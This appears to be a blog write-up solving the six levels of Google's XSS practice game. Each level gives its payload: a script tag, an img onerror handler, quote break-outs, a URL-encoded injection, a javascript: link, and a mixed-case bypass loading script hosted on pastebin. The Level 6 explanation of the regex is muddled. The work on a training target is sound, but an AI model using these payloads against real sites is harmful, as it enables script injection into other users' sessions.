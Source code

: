 ## Cross-site scripting (XSS)Cross-site scripting (XSS)

*https://xss-game.appspot.com/*

This is a note of practicing the xxs 

## Level 1
This is the most obvious and easiest one. Just insert following code and you're done:
```
<script>alert(1)</script>
```

## Level 2
Since the script won't work you'll have to think of another tags to trigger JavaScript code execution. The first thing which came in mind was to use img tags along with the onerror attributes. Here you go:

<img src="http://inexist.ent" onerror="javascript:alert(1)"/>
## Level 3
Well this time I had to read some code in order to understand the applications logic. If you toggle the code you'll see index.html:

```
      function chooseTab(num) {
        // Dynamically load the appropriate image.
        var html = "Image " + parseInt(num) + "<br>";
        html += "<img src='/static/level3/cloud" + num + ".jpg' />";
        $('#tabContent').html(html);
```
As you see the num parameter is used to generate the img tag. The ideas was to break-out the quotes and insert some sneaky javascript code. Again I've used the onerror attribute to insert JS. Insert this into the URL address bar and you'll get your alert():

https://xss-game.appspot.com/level3/frame#3' onerror='alert(1)';
## Level 4
This is quite tricky. This time I have followed the provided hints. Having the JS console activated and requesting https://xss-game.appspot.com/level4/frame?timer=' showed me following output:

SyntaxError: unterminated string literal
```
startTimer(''');
Obviously there is again a way to escape the function and append the alert() call. I have tried several things:

https://xss-game.appspot.com/level4/frame?timer=');
```
```
   SyntaxError: unterminated string literal

    startTimer('')');
```
https://xss-game.appspot.com/level4/frame?timer=');
```
      SyntaxError: unterminated string literal


    startTimer('')');
 ```
And then I've decided to use some URL encoding: %3B represents the semi-colon.

https://xss-game.appspot.com/level4/frame?timer=')%3B
```
      SyntaxError: unterminated string literal


    startTimer('');');
```
Aha.. There you go! We can terminate the call and insert other ones. The final request:

https://xss-game.appspot.com/level4/frame?timer=')%3Balert(1)%3Bvar b=('

which resulted in

startTimer('');alert(1);var b=('');
I must admit: Nice one!

## Level 5
This one was quite easy. On the first page you can see a link: https://xss-game.appspot.com/level5/frame/signup?next=confirm. Now let's have a look how this next parameter is used in confirm.html:

```
      <script>
            setTimeout(function() { window.location = '{{ next }}'; }, 5000);
      </script>
```
So the window.location is set based on the next parameter. This is a typical case for DOM based XSS. Besides that we have in signup.html:

```
      <br><br>
          <a href="{{ next }}">Next >></a>
      </body>
```
Again the next parameter is used as an a tag target. Ok, enough bla bla. Here is the PoC:

Go to https://xss-game.appspot.com/level5/frame/signup?next=javascript:alert(1)

Insert your Mail

Click Next >>

Voila!
## Level 6
This time I had to figure to host my JS code. So I've used pastebin.com to host my evil code. Next I had a look at the code. As you can read a new script tag is created and the src attribute is set appropriately. The only catch about it: You're not allowed to have a URL containing https?:

```
      if (url.match(/^https?:\/\//)) {
        setInnerText(document.getElementById("log"),
          "Sorry, cannot load a URL containing \"http\".");
        return;
      }
```
Afterwards the text after the hash is used as the scripts src:
```
      // Load this awesome gadget

      scriptEl.src = url;
```
Have you noticed something about the regexp? No?! Seriously not? Ok. It's not case-sensitive. You can escape it by using hTTps or any other combination. So the final PoC:

https://xss-game.appspot.com/level6/frame#htTps://pastebin.com/raw.php?i=15S5qZs0
Conclusion
This was a great game to play with. After all I must say the levels were not that difficult but a really good opportunity to refresh my XSS skills :)

http://blog.dornea.nu/2014/06/02/googles-xss-game-solutions/
